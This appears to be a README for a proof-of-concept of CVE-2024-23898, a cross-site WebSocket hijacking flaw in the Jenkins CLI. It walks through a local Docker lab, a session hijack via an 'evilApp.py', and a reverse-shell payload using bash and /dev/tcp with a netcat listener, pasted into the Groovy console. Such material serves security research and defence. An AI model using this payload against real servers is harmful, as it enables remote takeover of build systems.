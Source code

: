 # Jenkins CLI Websocket Hijacking - PoC
 A proof of concept for CVE-2024-23898, a cross-site WebSocket hijacking vulnerability affecting Jenkins versions 2.217-2.441.  
 This exploits targets the Jenkins CLI that can be used to remotely access and issue commands to a Jenkins control server.  Through this exploit a remote attacker can gain access to and establish a persistent back-door to a Jenkins control server if an administrator is tricked into visiting a malicious site while logged-in to the target Jenkins control server.


# Setting Up Jenkins
- Run "docker-compose build && docker-compose up -d"
- Navigate to http://localhost:8080, you will be prompted for an admin password
- Open a shell in the jenkins docker container (NOT THE POSTGRES ONE)
    - "docker exec -it <container_id> bash"
    - cd to directory listeed on the Jenkins page, acquire the password
- Set up a basic admin account (remember the password) and install default plugins 
-Configure anonymous users with basic permissions by going to Manage Jenkins > Security 
	- Set authorization type to "Matrix-based"
	- Allow anonymous users to read "Overall" and "Job"

# Conducting Websocket Hijacking
- Open Firefox, go to Settings > Security & Privacy
    - Set Browser Privacy to custom, toggle Cookies "off" (this makes Firefox allow all cookies through)
- Go to Jenkins, login as the admin, making sure to click "Keep me signed in"
- Lauch evilApp.py, visiting on http://localhost:5000
    - Go to Network and hit refresh
    - Click on the packet with file "ws" and go to Response, you should see that is says "Authenticated as: admin""
        -  You can also check "Cookies" to see the remember-me cookie

# Executing a reverse shell
- In your machine's terminal, start a netcat listener with `nc -l <port_num>` (replace <port_num> with any unused port number)
- You must obtain your computer's IP address as seen by Docker. On Mac you can find this with the command `ipconfig getifaddr en0`
- Assuming your Jenkins server is running, go to `[http://localhost:8080/script](http://localhost:8080/script)`. Log in as the admin account if you have not already.
- Paste and execute this payload into the Groovy script console: `['bash', '-c', 'bash -i >& /dev/tcp/<attacker_ip>/<port_num> 0>&1'].execute()`
- Go back to the terminal with the netcat listener. You should be in the Jenkins server's file system and able to do anything the admin user can.
